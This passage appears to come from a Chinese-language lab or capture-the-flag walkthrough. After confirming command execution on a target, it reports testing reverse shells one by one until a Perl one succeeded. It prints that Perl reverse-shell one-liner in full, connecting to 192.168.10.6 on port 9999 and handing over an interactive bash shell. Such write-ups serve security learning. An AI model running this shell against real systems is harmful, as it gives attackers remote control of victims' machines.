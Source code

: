 查看结果，确定有命令执行

![](./pic/54.jpg)

那么尝试进行反弹`shell`，这里假设什么都不知道，就一个个测试反弹`shell`，在`perl`语言的反弹`shell`成功

```shell
perl -e 'use Socket;$i="192.168.10.6";$p=9999;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("bash -i");};'
```

![](./pic/55.jpg)
